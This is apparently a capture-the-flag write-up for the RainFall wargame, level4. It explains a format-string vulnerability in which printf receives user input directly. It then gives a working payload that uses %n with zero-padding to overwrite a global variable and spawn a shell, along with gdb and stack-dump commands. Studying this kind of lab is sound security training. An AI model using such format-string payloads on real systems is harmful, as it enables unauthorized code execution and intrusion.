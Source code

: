 ### Brief
In this program there is a `main`, `n` and `p` function
`main` only call n.
`n` has a stack buffer of `520`, fill with `fgets` and call `p` with the buffer as parameter.
The function also test the `m` global variable and open a shell if it's equal to `16930116`.
`p` use printf with the buffer.

### Exploit
Here the exploit is the exact same as `level3` and use `printf` with the `%n` format to write to the `m` variable.
But the problem is that we only have a buffer of size `520` and since `%n` only store the number of byte displayed it seems that don't have enough space to write the correct value.
The trick is to use `%0` format to pad a variable with how many `0` that we want.
As an exemple `%0100x` will pad with `0` character so that the final number of written character is `100` before.

Same as before we pop the stack to see where does our input start.
Here we can see that our input is the 12th word in the stack.

```bash
level4@RainFall:~$ python -c "print('\xef\xbe\xad\xde|' + '%x '*14)" | ./level4
ﾭ�|b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 deadbeef 2078257c 25207825
```

The address of the `m` variable is  retrieved using gdb.
```bash
level4@RainFall:~$ gdb level4
(gdb) info variables
...
0x08049810  m
```

### Get access
First is the address of the variable `m`
Then we pop the stack 10 times.
We also add 16930051 bytes so that `m` will get the value `16930116`
```bash
python -c "print('\x10\x98\x04\x08 ' + '%x'*10 + '%016930051x' + '%n')" | ./level4
```